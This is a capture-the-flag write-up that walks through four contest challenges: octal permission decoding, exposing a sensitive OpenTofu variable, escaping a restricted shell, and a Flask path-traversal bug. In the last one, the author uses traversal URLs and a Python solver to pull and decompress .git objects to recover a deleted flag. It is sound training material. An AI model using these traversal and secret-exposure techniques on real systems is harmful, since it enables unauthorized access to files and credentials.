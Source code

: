 # Perms
This task is an easy one being solved by 22 teams. We were provided with a `challenge.txt` file containing linux permissions on each line.
With no description or hints provided with the task , i considered calculating permissions using an online calculator. [Link](https://nettools.club/chmod_calc)

Then, I used [Cyberchef](https://gchq.github.io/CyberChef/) with the `from octal` function to decrypt the message and get the flag.


# Openheimer
Task description : terraform's good, but have you tried opentofu?
We were provided with a netcat to interact with the server , which had an OpenTofu console running, along with a main.tf file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f0d50c05-3a50-498f-a305-180c316a8e44)

This task was an opportunity to learn about terraform and opentofu, a free terraform fork. [OpenTofu](https://opentofu.org)
With the console running, I attempted various console commands using the documentation . [Doc](https://opentofu.org/docs/cli/commands/console/)
![image](https://github.com/Garroura/CyberTEK/assets/164345052/b04d894e-7137-4ada-af83-370ab58428d9)

To print the value of our variable named `SECRET` , we can use `var.SECRET` but is says `(sensitive value)` which is obvious because `sensitive` is set to `True`.
So we need to baypass this and print the value. 
Going through the terraform commands [link](https://developer.hashicorp.com/terraform/language/functions/nonsensitive) we found that the `nonsensitive` command takes a sensitive value and returns a copy of that value with the sensitive marking removed, thereby exposing the sensitive value.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f5a1d4eb-2054-4fe8-a0ec-e542a23ec918)


As we can see it is refusing to print the value in plaintext so we will try weak encoding functions starting with `base64encode` .
![image](https://github.com/Garroura/CyberTEK/assets/164345052/c16c0ec1-c480-4987-9d00-b6fa52b0851a)

We can see here thas he is blacklisting some functions so we will try different encoding techniques. As we go through , the `urlencode` function is printing something.
![image](https://github.com/Garroura/CyberTEK/assets/164345052/11087099-314e-4f3c-b2bc-6bb5310d89a3)

Using the urldecode function  in Cyberchef we get our flag in ascii .

`Securinets{oP3N7OfU_I5_4w35Om3_8U7_83c4R3FuL_WH3n_WORkin9_Wi7h_53Cr3Ts}`

# bolbok

Task description : Bolbok is scared of the arcane and has hidden his secret in this restricted shell.
Using the netcat to connect to the server , we have a shell but we can only use some commands. I used the Offsec Handbook, it helps a lot [Offsec](https://0xffsec.com/handbook/shells/restricted-shells/)
To see writable variables i used `export -p`. 
![image](https://github.com/Garroura/CyberTEK/assets/164345052/5ead06c3-2c0b-42be-9246-e45173fba38d)

As we can see the commands we can execute are stored in /usr/bolbok/cmds 

I used `echo /usr/bolbok/cmds/*` to list the directories in the file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c670dc26-3286-4384-b9dd-bddd9186413a)

Since we can execute the `ls` command , we can use -l to show all details about the files,  -a to print all hidden files and directories and -R for recursive mode , to list all directrories starting with / ( `ls -laR /`)

Exploring the listed directories we can find a hidden file named .flag in `/usr/share/misc/bolbok/directorysecrets/youwillneverfindthis`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/e791a61a-c182-4254-a529-e927ca7e8f65)

Now , knowing the directory and the flag format we can use `grep -r "Securi" /usr/share/misc/bolbok/secrets/youwillneverfindthis` 

![image](https://github.com/Garroura/CyberTEK/assets/164345052/62d58771-afb8-4d0b-b217-367981c982e9)

`Securinets{wH47_W45_7H47_3x4C7LY?4n_R845h_j41l??_0r_ls_4nd_grep_L3550n}`

# Ekko 
Task description : ls & cat made easy.

We were provided with a web page displaying its source code written in Flask and a dockerfile.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/aec601f1-47d7-4f02-af0d-c97d20afd4b0)

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c380ed98-7b96-4919-9e7c-cdac11895bb6)


Going through the code , we see that we can use the commands `ls` and `cat` with `q` as a query parameter. 
Looking at the docker file , we knew that there is a `.git` file in the app directory so we try to acces it using  `https://ekko.securinets-tekup.tech/ls?q=../app/.git`.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/43012f69-e16d-4894-a58f-f582ea94dd63)


We tried to go through each file and look for sensitive information , so i found this using `https://ekko.securinets-tekup.tech/cat?q=../app/.git/logs/HEAD`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/60c8fbaf-6167-45ae-8be9-c4137dc2f6b8)


The commit history and their hashes revealed that the user added a file named flag.txt to the git, then deleted it. To recover this, we needed to go back to that commit.

Going through the git [docs](https://git-scm.com/book/fr/v2/Les-tripes-de-Git-Les-objets-de-Git)  and doing some researchs , we found that the git commits are stored in the `/.git/objetcs` directory using the commit hash (This is how Git initially stores content - one file per content, named after the SHA-1 checksum of the content and its header. The subdirectory is named after the first 2 characters of the fingerprint and the file after the remaining 38 characters). I tried the hash of the commit containing the flag.txt using `/cat?q=../app/.git/objects/c3/af58e5721c2dbd456ddef869a6a95d0eac473f`
It shows non printable caracters and some encoded strings.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/a1693c54-37b1-430a-a773-4105f2db1587)

Using the same git documentation , i looked for how blobs are encoded in git and i found that it is `zlib` compressed.
We wrote a solver to get all the files in /.git/objects and decompress the content of each file in order to get the flag .
```
import os
import requests, re

url = "https://ekko.securinets-tekup.tech/"

get_objects = requests.get(url + "ls?q=../app/.git/objects/" )
obj = re.findall('\w+', get_objects.text)

destination_folder = "Files"
if get_objects.status_code == 200:
    for i in obj:
        com = requests.get(url + "ls?q=../app/.git/objects/" + i + '/')
        get_com = re.findall('\w+',com.text)
        for commut in get_com:
            blob = requests.get(url + "cat?q=../app/.git/objects/" + i + '/' + commut)
            with open(commut + ".zlib", 'wb') as f:
                f.write(blob.content)
            print("Downloaded successfully:", commut + ".zlib")
        else:
            print("Failed to download:", blob.status_code)
```
``
import os
import zlib
folder_path = '`File'

# Iterate through all files in the folder
for filename in os.listdir(folder_path):
    file_path = os.path.join(folder_path, filename)
    try : 
        with open(file_path,'rb') as f:
            ct= f.read()
        a = (zlib.decompress(ct))
        print(f" : {file_path} :  {a}")
    except : continue
``
`Securinets{y43h_n0w_U_Kn0W_Wh4T_15_917_bL0bS}`

